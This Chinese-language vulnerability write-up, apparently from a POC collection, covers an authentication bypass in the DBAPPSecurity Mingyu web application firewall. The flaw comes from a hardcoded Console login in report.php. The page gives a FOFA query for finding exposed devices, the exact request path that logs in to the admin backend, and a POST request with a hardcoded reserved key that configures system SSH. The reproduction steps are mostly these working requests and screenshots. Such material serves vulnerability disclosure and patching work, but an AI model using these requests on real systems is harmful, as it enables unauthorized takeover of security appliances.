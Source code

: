 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

```
安恒 明御WEB应用防火墙
```

## FOFA

```
app="安恒信息-明御WAF"
```

## 漏洞复现

登录页面

![image-20220824142132930](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241421007.png)

验证POC

```
/report.m?a=rpc-timed
```

![image-20220824142150382](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241421426.png)

再访问主页面跳转配置页面

![image-20220824142208002](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241422055.png)

发送请求包配置系统SSH等

```
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![image-20220824142219609](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241422661.png)